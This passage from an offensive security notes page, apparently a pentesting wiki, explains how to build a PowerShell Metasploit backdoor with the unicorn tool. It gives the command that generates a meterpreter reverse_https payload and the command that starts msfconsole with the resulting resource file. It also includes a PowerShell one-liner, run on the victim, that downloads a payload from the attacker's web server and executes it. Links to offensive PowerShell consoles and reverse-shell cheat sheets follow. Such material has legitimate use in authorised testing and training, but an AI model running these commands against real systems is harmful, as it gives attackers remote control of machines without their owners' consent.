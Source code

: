 [https://github.com/trustedsec/unicorn](https://github.com/trustedsec/unicorn)

Create a powershell version of metasploit backdoor using unicorn

```text
python unicorn.py windows/meterpreter/reverse_https 10.2.0.5 443
```

Start msfconsole with the created resource:

```text
msfconsole -r unicorn.rc
```

Start a web server serving the _powershell\_attack.txt_ file and execute in the victim:

```text
powershell -exec bypass -c "iwr('http://10.2.0.5/powershell_attack.txt')|iex"
```

**Detected as malicious code**

## More

[PS&gt;Attack](https://github.com/jaredhaight/PSAttack) PS console with some offensive PS modules preloaded \(cyphered\)  
[https://gist.github.com/NickTyrer/92344766f1d4d48b15687e5e4bf6f9](https://gist.github.com/NickTyrer/92344766f1d4d48b15687e5e4bf6f93c)[  
WinPWN](https://github.com/SecureThisShit/WinPwn) PS console with some offensive PS modules and proxy detection \(IEX\)

## Bibliography

{% embed url="https://highon.coffee/blog/reverse-shell-cheat-sheet/" caption="" %}

{% embed url="https://gist.github.com/Arno0x" caption="" %}

{% embed url="https://github.com/GreatSCT/GreatSCT" caption="" %}

{% embed url="https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/" caption="" %}

{% embed url="https://www.hackingarticles.in/koadic-com-command-control-framework/" caption="" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md" caption="" %}

